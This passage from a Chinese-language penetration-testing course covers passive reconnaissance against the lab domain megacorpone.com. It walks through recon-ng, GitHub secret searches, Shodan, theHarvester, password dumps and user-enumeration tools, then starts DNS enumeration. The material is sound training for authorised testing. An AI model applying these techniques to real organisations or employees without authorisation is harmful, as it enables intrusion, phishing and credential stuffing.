[recon-ng][default] > modules load recon/domains-hosts/google_site_web
[recon-ng][default][google_site_web] > info
Name: Google Hostname Enumerator
Author: Tim Tomes (@lanmaster53)
Version: 1.0
Description:
Harvests hosts from Google.com by using the 'site' search operator. Updates the 'hosts' table with the results.
Options:
Name Current Value Required Description
---- ------------- -------- ------------------------------
SOURCE default yes source of input (see 'show info' for details)
```


源选项：

| 选项 | 描述 |
| :--- | :--- |
| default | SELECT DISTINCT domain FROM domains WHERE domain IS NOT NULL |
| <string> | 代表单个输入的字符串 |
| <path> | 指向包含输入列表的文件的*路径* |
| query <sql> | 返回单列输入的数据库查询 |

[recon-ng][default](google_site_web) >

*列表 200 - 使用 recon/domains-hosts/google_site_web*

请注意，由于我们刚刚安装并加载了该模块，输出中包含了一些关于该模块的额外信息。根据输出内容，该模块需要指定一个源（`source`），即我们要收集信息的靶标。

在这种情况下，我们将使用 `options set SOURCE megacorpone.com` 来设置目标域名：

```
[recon-ng][default](google_site_web) > options set SOURCE megacorpone.com
SOURCE => megacorpone.com
```

*列表 201 - 设置源*

最后，我们运行该模块：

```
[recon-ng][default](google_site_web) > run
``````````````
MEGACORPONE.COM
````````````````
[+] 在 Google 搜索: site:megacorpone.com
[+] [host] www.megacorpone.com (<blank>)
[+] [host] vpn.megacorpone.com (<blank>)
[+] [host] www2.megacorpone.com (<blank>)
[+] [host] siem.megacorpone.com (<blank>)
[+] 在 Google 搜索: site:megacorpone.com -site:www.megacorpone.com -site:vpn.megacorpone.com -site:www2.megacorpone.com -site:siem.megacorpone.com
``````````````
摘要
``````````````
[+] 找到 4 个主机（4 个新主机）。


### *列表 202 - 运行模块*

结果与我们从 Netcraft DNS 搜索中找到的内容相似。然而，我们并没有白费力气。`Recon-ng` 会将结果存储在一个本地数据库中，这些结果将作为其他 `recon-ng` 模块的输入。

我们可以使用 `show hosts` 命令来查看存储的数据：

```
[recon-ng][default](google_site_web) > back

[recon-ng][default] > show
```

显示各种框架项目

用法: `show <companies|contacts|credentials|domains|hosts|leaks|locations|netblocks|ports|profiles|pushpins|repositories|vulnerabilities>`


```
[recon-ng][default] > show hosts
```

| rowid | host | ip_address | region | country | module |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 1 | www.megacorpone.com | | | | google_site_web |
| 2 | vpn.megacorpone.com | | | | google_site_web |
| 3 | www2.megacorpone.com | | | | google_site_web |
| 4 | siem.megacorpone.com | | | | google_site_web |

```
[*] 返回了 4 行

[recon-ng][default] >
```

### *列表 203 - 显示主机*

我们的数据库中有四个主机，但没有它们的额外信息。也许另一个模块可以补充这些 IP 地址。

让我们使用 `marketplace info` 命令检查 `recon/hosts-hosts/resolve`。

```
[recon-ng][default] > marketplace info recon/hosts-hosts/resolve
```

| 字段 | 值 |
| :--- | :--- |
| path | recon/hosts-hosts/resolve |
| name | Hostname Resolver |
| author | Tim Tames (@lanmaster53) |
| version | 1.0 |
| last_updated | 2019-06-24 |
| description | 解析主机的 IP 地址。更新 'hosts' 表 |
| required_keys | [] |
| dependencies | [] |
| files | [] |
| status | installed |

```
[recon-ng][default] >
```

### *列表 204 - recon/hosts-hosts/resolve 的模块信息*

该模块的描述符合我们的需求，因此我们将使用 `marketplace install` 安装它：

```
[recon-ng][default] > marketplace install recon/hosts-hosts/resolve

[*] 模块已安装: recon/hosts-hosts/resolve

[*] 正在重新加载模块...
```

*列表 205 - 安装 resolve 模块*

> “Invalid command” 错误可能表明我们处于错误的命令层级。如果发生这种情况，请运行 `back` 返回到主要的 `recon-ng` 提示符，然后再次尝试该命令。

模块安装完成后，我们可以使用 `modules load` 来使用它，并运行 `info` 来显示关于该模块及其选项的信息：

```
[recon-ng][default] > modules load recon/hosts-hosts/resolve

[recon-ng][default][resolve] > info

    名称: Hostname Resolver

    作者: Tim Tames (@lanmaster53)

    版本: 1.0

描述:

    解析主机的 IP 地址。使用结果更新 'hosts' 表。

选项:

    名称        当前值        必需      描述

    ----        ----------    ------    ------

    SOURCE      default       是        输入源 (有关详细信息请参见 'show info')

源选项:

    default     SELECT DISTINCT host FROM hosts WHERE host IS NOT NULL AND ip_address IS NULL

    <string>    代表单个输入的字符串

    <path>      指向包含输入列表的文件的*路径*

    query <sql> 返回单列输入的数据库查询

备注:

    * 注意: 名称服务器必须为 IP 形式。
```

从上述输出可以清楚地看出，该模块将解析主机的 IP 地址。

我们需要提供要解析的 IP 地址作为源。我们有四个选项可以设置为源：`default`、`string`、`path` 和 `query`。每个选项旁边都有相应的描述，如列表 206 所示。例如，在 “google_site_web” `recon-ng` 模块中，我们使用了字符串值。

然而，这次我们要利用数据库。如果我们使用 “default” 值，`recon-ng` 将在其数据库中查找任何有主机名但没有 IP 地址的记录。

如列表 203 所示，我们有四个没有 IP 地址的主机。如果我们选择 “default” 作为源，该模块将自动针对数据库中这四个主机运行。

让我们保持源设置为 “default”，然后 `run` 该模块来试试：

```
[recon-ng][default][resolve] > run

[+] www.megacorpone.com => 38.100.193.76

[+] vpn.megacorpone.com => 38.100.193.77

[+] www2.megacorpone.com => 38.100.193.79

[+] siem.megacorpone.com => 38.100.193.89
```

很好。现在我们有了这四个域名的 IP 地址。

如果我们再次显示 `hosts`，我们可以验证数据库是否已用这两个模块的结果进行了更新：

```
[recon-ng] [default] [resolve] > show hosts

+------+-----------------------+--------------+------+-------+--------------+

| rowid | host                  | ip_address   | region | country | module       |

+------+-----------------------+--------------+------+-------+--------------+

| 1    | www.megacorpone.com   | 38.100.193.76 |      |       | google_site_web |

| 2    | vpn.megacorpone.com   | 38.100.193.77 |      |       | google_site_web |

| 3    | www2.megacorpone.com  | 38.100.193.79 |      |       | google_site_web |

| 4    | siem.megacorpone.com  | 38.100.193.89 |      |       | google_site_web |

+------+-----------------------+--------------+------+-------+--------------+

[*] 返回了 4 行


*列表 208 - 多个模块运行后显示主机*

### 6.6.1.1 练习

（本练习不需要报告）

- 1. 使用 `recon/domains-hosts/google_site_web` 和 `recon/hosts-hosts/resolve` 模块来收集关于 MegaCorp One 的信息。
- 2. 花些时间去探索其他 `recon-ng` 模块。

### 6.7 开源代码

在下面的章节中，我们将讨论各种在线工具和资源，它们可用于被动地搜索信息。一个有趣的信息来源是开源项目和在线代码仓库，例如 GitHub、GitLab 和 SourceForge。

存储在线的代码可以提供一瞥组织所使用的编程语言和框架。在某些罕见的情况下，开发人员甚至不小心将敏感数据和凭据提交到了公共仓库中。

其中一些平台的搜索工具支持我们在本模块前面讨论的 Google 搜索运算符。

例如，GitHub 的搜索非常灵活。在 GitHub 上，我们可以搜索用户或组织的仓库，但如果我们要在所有公共仓库中搜索，则需要一个账户。

在之前的模块中，我们确定了 MegaCorp One 的 GitHub 账户。

让我们搜索该账户的仓库以寻找有趣的信息。我们可以使用 `filename:users` 来搜索任何文件名中包含“users”一词的文件：

> GitHub, 2019, https://github.com/
> GitLab, 2019, https://about.gitlab.com/
> Slashdot Media, 2019, https://sourceforge.net/
> GitHub, 2019, https://help.github.com/en/github/searching-for-information-on-github/searching-code



我们的搜索仅找到一个文件 - `xampp.users`。 即使只有一个结果，我们可能也发现了一些非常有趣的内容，因为 *XAMPP*[^157] 是一个 Web 应用程序开发环境。让我们查看该文件的内容。

[^157]: (Apache Friends, 2019), https://www.apachefriends.org/index.html




*图 31：GitHub 搜索结果*

该文件似乎包含用户名和密码哈希值[^158]，这在我们开始主动攻击阶段时可能非常有用。让我们将其添加到我们的笔记中。

[^158]: 用户名和密码哈希值。



这种手动方法在小型代码库中效果最佳。对于大型代码库，我们可以使用几种工具来辅助自动化部分搜索工作，例如 `Gitrob`[^159] 和 `GitLeaks`[^160]。`Recon-ng` 也有几个模块用于搜索 GitHub。这些工具中的大多数需要访问令牌[^161]才能使用源代码托管提供商的 API。

例如，以下截图展示了 `GitLeaks` 在文件中发现 AWS *客户端 ID*[^162] 的示例：

[^159]: (Michael Henriksen, 2018), https://github.com/michenriksen/gitrob
[^160]: (Zachary Rice, 2019), https://github.com/zricethezav/gitleaks
[^161]: (GitHub, 2019), https://help.github.com/en/articles/creating-a-personal-access-token-for-the-command-line
[^162]: (Amazon Web Services, 2019), https://docs.aws.amazon.com/general/latest/gr/aws-sec-doc-types.html#access-keys-and-secret-access-keys



> 搜索源代码中秘密信息的工具，如 `Gitrob` 或 `Gitleaks`，通常依赖于正则表达式[^163]或基于熵[^164]的检测来识别潜在有用的信息。正则表达式是一种预定义的搜索模式。它们特别适用于在文本中搜索常用密码的变体。另一方面，基于熵的检测试图查找随机生成的字符串。这里的想法是，由随机字符和数字组成的长字符串很可能是密码。无论工具如何搜索秘密，没有工具是完美的，它们可能会错过手动检查可能发现的内容。

[^163]: (Wikipedia, 2019) https://en.wikipedia.org/wiki/Regular_expression
[^164]: (Wikipedia, 2019) https://en.wikipedia.org/wiki/Password_strength#Random_passwords

### 6.7.1.1 练习

- 搜索 Megacorpone 的 GitHub 代码库以查找有趣或敏感的信息。

### 6.8 Shodan

在收集目标信息时，重要的是要记住传统网站只是互联网的一部分。

`Shodan`[^165] 是一个搜索引擎，它爬取连接到互联网的设备，包括但不限于万维网。这包括运行网站的服务器，但也包括路由器、物联网[^166] 设备等。

[^165]: (Shodan, 2019), https://www.shodan.io/
[^166]: (Wikipedia, 2019) https://en.wikipedia.org/wiki/Internet_of_things

换句话说，谷歌和其他搜索引擎寻找的是 Web 服务器内容，而 Shodan 搜索的是连接互联网的**设备**，并与它们交互，显示关于它们的信息。

虽然 Shodan 并非完成本模块或实验室所需材料所必需的，但值得稍微探索一下。在使用 Shodan 之前，我们必须注册一个免费账户，该账户提供有限的访问权限。

让我们开始使用 Shodan 搜索 **hostname:megacorppone.com**：



在这种情况下，Shodan 列出了 IP 地址、服务和横幅信息。所有这些都是在不与客户端网站交互的情况下被动收集的。

这些信息为我们提供了目标互联网足迹的快照。例如，有八台服务器正在运行 SSH，我们可以点击顶级服务下的 **SSH** 来深入挖掘并细化我们的结果。



根据 Shodan 的结果，我们知道每台服务器上运行的 OpenSSH 的确切版本。如果我们点击 IP 地址，可以检索主机的摘要。



我们可以在此页面查看服务器使用的端口、服务和技术。Shodan 还会揭示已识别的任何服务或技术是否存在已公开漏洞。当我们进入主动测试阶段时，关于从哪里开始的信息是极其宝贵的。

### 6.9 安全头扫描器

还有其他几个专业网站可用于收集有关网站或域安全态势的信息。其中一些网站模糊了被动和主动信息收集的界限，但对我们而言，关键点在于是第三方正在发起任何扫描或检查。

其中一个网站，Security Headers,^[167] 会分析 HTTP 响应头并提供目标站点安全态势的基本分析。我们可以根据结果了解组织的编码和安全实践。

让我们扫描 www.megacorpone.com 并查看结果：

[^167]: (Scott Helme, 2019), https://securityheaders.com/




图 37：www.megacorpone.com 的扫描结果

该网站缺少几个防御性头，例如 *Content-Security-Policy*[^168] 和 *X-Frame-Options*[^169]。这些缺失的头本身不一定是漏洞，但它们可能表明 Web 开发人员或服务器管理员不熟悉*服务器加固*[^170]。

> *服务器加固，或安全配置，是通过配置来保护服务器的整体过程。这包括禁用不必要的服务、删除未使用的服务或用户账户、轮换默认密码、设置适当的服务器头等等。您不需要了解配置每种类型服务器的所有细节，但了解概念以及需要查找的内容，有助于在分析服务器时确定如何最好地接近潜在目标。*

### 6.10 SSL 服务器测试

我们可以使用的另一个扫描工具是 Qualys SSL Labs[^171] 的 *SSL Server Test*。该工具分析服务器的 SSL/TLS 配置并将其与当前最佳实践进行比较。它还会识别一些与 SSL/TLS 相关的漏洞，例如 Poodle[^172] 或 Heartbleed[^173]。让我们扫描 www.megacorpone.com 并查看结果：

[^171]: Qualys SSL Labs.
[^172]: (Wikipedia, 2019) https://en.wikipedia.org/wiki/POODLE
[^173]: (Wikipedia, 2019) https://en.wikipedia.org/wiki/Heartbleed

**SSL 报告：www.megacorpone.com (38.100.193.76)**
评估时间：Mon, 23 Sep 2019 15:48:05 UTC | HIDDEN | Clear cache



结果并不像安全头检查那样糟糕。然而，弱 Diffie-Hellman 密钥交换、RC4 密码以及缺乏前向保密表明我们的目标没有应用当前的 SSL/TLS 加固最佳实践。例如，由于存在多个漏洞，多年来一直建议禁用 RC4 密码[^174]。我们可以利用这些发现来了解目标组织的安全实践或缺乏实践。

[^174]: (Microsoft Security Response Center, 2013), https://msrc-blog.microsoft.com/2013/11/12/security-advisory-2868725-recommendation-to-disable-rc4/

### 6.11 Pastebin

`Pastebin`[^175] 是一个用于存储和共享文本的网站。该网站在基本使用时不需要账户。许多人使用 Pastebin，因为它无处不在且易于使用。但由于 Pastebin 是一项公共服务，我们可以使用它来搜索敏感信息。

例如，我们可以使用该网站进行基本搜索，或者使用 API 进行更高级的用途。让我们搜索 megacorpone.com：

[^175]: (Pastebin, 2019), https://pastebin.com/



*图 39：搜索 Pastebin*

结果只有十条，但其中一些看起来很熟悉。我们可能无法在 MegaCorp One 上找到任何新信息，但我们不应在未来的信息收集工作中忽视搜索 Pastebin。

### 6.12 用户信息收集

除了收集关于目标组织资源的信息外，我们还可以收集关于组织员工的信息。我们收集这些信息的目的是编制用户或密码列表，为社会工程学构建借口，增强钓鱼活动或客户端攻击，执行*凭证填充*，<sup>176</sup> 以及其他更多目的。然而，每项渗透测试的规则（交战规则）各不相同。有些渗透测试可能仅限于纯粹的技术测试，不包含任何社会工程学成分。其他任务可能没有或很少有限制。

下面的一些方法将与此前各章节中讨论的方法有重叠，但我们将更深入的探讨几个专门用于用户枚举的工具。

当我们开始收集用户信息时，确实需要小心谨慎。正如我们在该模块引言中关于“大卫”的故事中所提到的，我们的目标是提高客户的安全态势，而不仅仅是让某个人被解雇。同样，我们也不希望违反任何法律。公司只能授权测试其自身的系统。员工的个人设备、第三方电子邮件和社交媒体账号通常不在授权范围之内。

#### 6.12.1 电子邮件收集

让我们通过一些基本的电子邮件收集开始用户信息收集。在这种情况下，我们将使用 theHarvester，<sup>177</sup> 它从多个公共数据源收集电子邮件、姓名、子域名、IP 地址和 URL。

例如，我们可以使用 `-d` 参数指定目标域名，使用 `-b` 参数设置要搜索的数据源来运行 theHarvester：

```
theHarvester -d megacorpone.com -b ...
```


# theharvester 运行输出

```bash
kali@kali:~$ theharvester -d megacorpone.com -b google
```

... 

[-] Starting harvesting process for domain: `megacorpone.com`

[-] Searching in Google:

Searching 0 results ...

Searching 100 results ...

Searching 200 results ...

Searching 300 results ...

Searching 400 results ...

Searching 500 results ...

Harvesting results

No IP addresses found

[+] Emails found:

-------------------

`joe@megacorpone.com`

`mcarlow@megacorpone.com`

`first@megacorpone.com`

[+] Hosts found in search engines:

-------------------------------------

Total hosts: 13

[-] Resolving hostnames IPs ...

`Ns1.megacorpone.com`:38.100.193.70

`Sieem.megacorpone.com`:38.100.193.89

`admin.megacorpone.com`:38.100.193.83

`beta.megacorpone.com`:38.100.193.88

`f s l . m e g a c o r p o n e . c o m`:38.100.193.82

`intranet.megacorpone.com`:38.100.193.87

`mail.megacorpone.com`:38.100.193.84

`mail2.megacorpone.com`:38.100.193.73

`ns1.megacorpone.com`:38.100.193.70

`ns2.megacorpone.com`:38.100.193.80

`url.megacorpone.com`:empty

`www.megacorpone.com`:38.100.193.76

`www2.megacorpone.com`:38.100.193.79


### 列表 209 - 在 megacorpone.com 上运行 theHarvester

我们找到了一些电子邮件地址，其中 "`first@megacorpone.com`" 对我们来说是新的。我们还找到了一些 `megacorpone.com` 的新子域名。让我们也将这些添加到我们的笔记中。

这是一个很好的提醒，信息收集并不总是整洁、线性的过程。我们在寻找用户信息时，可能会发现关于目标的其他内容。这就是为什么保持良好笔记的重要性所在。

#### 6.12.1.1 练习

- 1. 使用 `theHarvester` 枚举 `megacorpone.com` 的电子邮件地址。
- 2. 尝试不同的数据源（`-b`）。哪些对你最有效？

### 6.12.2 密码转储

恶意黑客经常在 Pastebin 或其他声誉较低的网站上转储泄露的凭证。^178^ 这些密码转储对于生成单词列表可能极具价值。例如，Kali Linux 包含了一个名为 "`rockyou`" 的单词列表，它是根据 2009 年的一次数据泄露生成的。^179^

将我们在用户枚举期间找到的电子邮件地址与密码转储进行比对，可能会发现我们可以用于凭证填充攻击的密码。

### 6.13 社交媒体工具

几乎所有组织现在都在社交媒体上保持某种存在。^180^ 公司发布的信息对我们可能非常有用。例如，我们可以使用这些信息来识别潜在员工，并获取有关公司及其运营的更多信息。我们可以使用几种已经讨论过的工具（如 `recon-ng` 和 `theHarvester`）通过多种方式收集这些公开信息。让我们探索一些额外的工具。

### 6.13.1 Social Searcher

`Social Searcher`^181^ 是一个用于社交媒体网站的搜索引擎。免费账号允许每天进行有限次数的搜索。`Social-searcher` 可以作为一个快速的替代方案，避免在多个更专业的服务上设置 API 密钥。


图 40：使用 Social Searcher

搜索结果将包括目标组织发布的信息以及人们对其的评价。除此之外，这还可以帮助我们确定一个组织在社交媒体上的足迹和覆盖范围。完成这些之后，我们可能会选择转向使用特定站点的工具。

### 6.13.2 特定站点工具

有两种特定站点的工具，我们可能需要熟悉一下。

`Twofi`^182^ 扫描用户的 Twitter 动态，并生成一个用于针对该用户进行密码攻击的个人化单词列表。虽然我们在被动信息收集期间不会执行任何攻击，但我们可以针对已识别的 Twitter 账号运行此工具，以便在需要时准备好单词列表。`Twofi` 需要一个有效的 Twitter API 密钥。

`linkedin2username`^183^ 是一个基于 LinkedIn 数据生成用户名列表的脚本。它需要有效的 LinkedIn 凭证，并依赖于与目标组织中个人的 LinkedIn 连接。该脚本将以几种不同的格式输出用户名。

#### 6.13.2.1 练习

- 1. 使用之前讨论过的任何一种社交媒体工具来识别更多的 MegaCorp One 员工。

### 6.14 Stack Overflow

*Stack Overflow*^184^ 是一个供开发人员提问和回答编程相关问题的网站。

从信息收集的角度来看，该网站的价值在于查看特定用户正在提问或回答的问题类型。如果我们合理地确定 Stack Overflow 上的用户也是我们目标组织的员工，我们可能能够根据员工的问题和答案推断出一些关于该组织的信息。

例如，如果我们发现一个总是提问和回答关于 Python 问题的用户，合理假设是他们在日常工作中使用这种编程语言，而且他们所在组织很可能也在使用它。

更糟糕的是，如果我们发现员工在这类论坛上讨论敏感信息（如漏洞修复），我们在此阶段可能会发现未修补的漏洞。

### 6.15 信息收集框架

我们将通过简要提及两种额外的工具来结束本模块，这些工具整合了我们讨论过的许多技术并添加了额外功能。这些工具通常对于我们在实验环境中要做的工作来说太重了，但在实际评估中非常有价值。

#### 6.15.1 OSINT 框架

`OSINT` 框架^185^ 在一个中心位置包含信息收集工具和网站。框架中列出的一些工具涵盖的学科比信息安全更多。

^176^ （来源在 OCR 上下文中不完全可见，通常指凭证填充的定义）
^177^ （Christian Martorella, 2019），https://github.com/laramies/theHarvester
^178^ （Troy Hunt, 2019）。https://haveibeenpwned.com/PwnedWebsites
^179^ （Wikipedia, 2019） https://en.wikipedia.org/wiki/RockYou#Data_breach
^180^ （Wikipedia, 2019） https://en.wikipedia.org/wiki/Social_media
^181^ （Social Searcher, 2019）。https://www.social-searcher.com
^182^ （Robin Wood, 2019），https://digi.ninja/projects/twofi.php
^183^ （inststring, 2019），https://github.com/inststring/linkedin2username
^184^ （Stack Overflow 引用的来源）
^185^ （OSINT 框架引用的来源）

`OSINT` 框架并不旨在充当检查清单，但审阅这些类别和可用工具可以激发关于额外信息收集机会的灵感。

#### 6.15.2 Maltego

`Maltego`^186^ 是一个功能非常强大的数据挖掘工具，提供了无尽的搜索工具和策略组合。其学习曲线可能非常陡峭，坦率地说，对于本模块而言它有点“杀鸡用牛刀”，但其令人印象深刻的能力值得进行介绍。

`Maltego` 搜索数千个在线数据源，并使用极其巧妙的“转换”（transforms）将一条信息转换为另一条。例如，如果我们正在执行用户信息收集行动，我们可以提交一个电子邮件地址，并通过各种自动化搜索，将其“转换”为关联的电话号码或街道地址。在组织信息收集练习中，我们可以提交一个域名，并将其“转换”为 Web 服务器，然后是一系列电子邮件地址，接着是一系列关联的社交媒体账户，最后是该电子邮件账户的潜在密码列表。

组合是无止境的，发现的信息以可扩展的图形形式呈现，允许轻松进行缩放和平移导航。

`Maltego CE`（`Maltego` 的受限“社区版”）包含在 Kali 中，并且需要免费注册才能使用。也有商用版本可用，可以处理更大的数据集。

^186^ (Paterna, 2019), https://www.paterna.com/buy/maltego-clients.php

多家供应商提供 `Maltego` 可以摄入并显示的信息。然而，一些提供商也对其数据访问收取费用。`Maltego` 不是完成实验室材料所必需的，但它可以是大规模信息收集操作中的不可或缺的工具。

## 6.16 总结

在本模块中，我们探讨了被动信息收集迭代过程的基础方面。我们涵盖了用于定位公司及其员工信息的各种技术和工具。这些信息在后续阶段往往证明是无价的。

## 7. 主动信息收集

在本模块中，我们将超越被动信息收集，探索涉及与目标服务直接交互的技术。我们将审视一些基础技术，但请记住，在实战中可以针对的服务数量不胜数。例如，包括我们在单独模块中更详细讨论的活动目录（Active Directory）。然而，在本模块中，我们将审视一些更常见的主动信息收集技术，包括端口扫描以及 DNS、SMB、NFS、SMTP 和 SNMP 枚举。

### 7.1 DNS 枚举

域名系统（DNS）^187^ 是互联网上最关键的系统之一，是一个负责将用户友好的域名翻译为 IP 地址的分布式数据库。

这是通过一种分层结构实现的，该结构划分为几个区域，从顶级根区域开始。让我们仔细看看解析 `www.megacorpoone.com` 这样的主机名所涉及的过程和服务器。

该过程从主机名被输入到浏览器或其他应用程序时开始。浏览器将主机名传递给操作系统的 DNS 客户端，然后操作系统将请求转发到其配置使用的外部 DNS 服务器。这个链条中的第一个服务器被称为 DNS 递归解析器（Recursor），负责与 DNS 基础设施交互并将结果返回给 DNS 客户端。DNS 递归解析器联系 DNS 根区域中的服务器之一。根服务器随后响应，提供负责包含顶级域名（TLD）^188^ 的区域的服务器地址，在本例中，是 `.com` TLD。

一旦 DNS 递归解析器接收到 TLD DNS 服务器的地址，它就会查询该服务器以获取 `megacorpoone.com` 域名的权威名称服务器（Authoritative Name Server）的地址。权威名称服务器是 DNS 查询过程的最后一步，包含在一个称为区域文件的本地数据库中的 DNS 记录。它通常为每个域托管两个区域：正向查找区域（用于查找特定主机名的 IP 地址）和反向查找区域（如果由管理员配置，用于查找特定 IP 地址的主机名）。一旦 DNS 递归解析器向 DNS 客户端提供 `www.megacorpoone.com` 的 IP 地址，浏览器就可以通过该 IP 地址联系正确的 Web 服务器并加载网页。

为了提高 DNS 的性能和可靠性，使用 DNS 缓存来在查询过程的不同阶段存储 DNS 记录的本地副本。这就是为什么一些现代应用程序，如 Web 浏览器，维护单独的 DNS 缓存的原因。此外，操作系统的本地 DNS 客户端以及查询过程中的每个 DNS 服务器也都维护自己的 DNS 缓存。域名所有者还可以通过 DNS 记录中的生存时间（TTL）字段来控制服务器或客户端缓存 DNS 记录的时间长度。

^187^ (Wikipedia, 2019), https://en.wikipedia.org/wiki/Domain_Name_System

^188^ (Wikipedia, 2019), https://en.wikipedia.org/wiki/Top-level_domain

#### 7.1.1 与 DNS 服务器交互

每个域名可以使用不同类型的 DNS 记录。一些最常见的 DNS 记录类型包括：

- *NS* - 名称服务器记录包含托管该域 DNS 记录的权威服务器的名称。
- *A* - 也称为主机记录，"A 记录"包含主机名（如 `www.megacorpone.com`）的 IP 地址。
- *MX* - 邮件交换记录包含负责处理该域邮件的服务器名称。一个域可以包含多个 MX 记录。
- *PTR* - 指针记录用于反向查找区域，用于查找与 IP 地址关联的记录。
- *CNAME* - 规范名称记录用于为其他主机记录创建别名。
- *TXT* - 文本记录可以包含任意数据，可用于各种用途，例如域所有权验证。

由于 DNS 中包含的丰富信息，它通常是主动信息收集的有利目标。

